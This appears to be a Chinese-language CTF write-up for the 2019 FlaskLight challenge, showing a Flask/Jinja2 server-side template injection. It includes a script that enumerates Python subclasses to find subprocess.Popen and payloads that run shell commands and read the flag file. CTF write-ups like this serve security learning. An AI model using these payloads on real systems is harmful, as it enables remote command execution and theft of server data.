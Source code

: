 ```yaml
---
title: "[CSCCTF 2019 Qual]FlaskLight"
date: 2020-04-15
tags: [CTF, WP,FLaskSSTI]
categories:
- [CTF, WP]
comments: false
---
```

# [CSCCTF 2019 Qual]FlaskLight

## 分析

题目是flask，打开查看网页源代码，发现提示传参search，fuzz测试

<!-- more -->

```
{{1*2}}
#返回结果2可以判定有SSTI
查看{{config}}发现一些信息
```

然后就是常规的模板注入

[Templates Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection)

```
{{''.__class__.__mro__[2].__subclasses__()}}
#可以爆出所有的类
```

写了一个脚本查找可以利用的类

利用`subprocess.Popen`执行命令,详情参考链接

```
import requests
import re
import html
import time

index = 0
for i in range(170, 1000):
    try:
        url = "http://5a8d97da-4cb0-43f8-9810-e9c352e034ad.node3.buuoj.cn/?search={{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "]}}"
        r = requests.get(url)
        res = re.findall("<h2>You searched for:<\/h2>\W+<h3>(.*)<\/h3>", r.text)
        time.sleep(0.1)
        # print(res)
        # print(r.text)
        res = html.unescape(res[0])
        print(str(i) + " | " + res)
        if "subprocess.Popen" in res:
            index = i
            break
    except:
        continue
print("indexo of subprocess.Popen:" + str(index))
```

找到类名的index之后很简单了

```
?search={{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}

?search={{''.__class__.__mro__[2].__subclasses__()[258]('ls /flasklight',shell=True,stdout=-1).communicate()[0].strip()}}

?search={{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

得到flag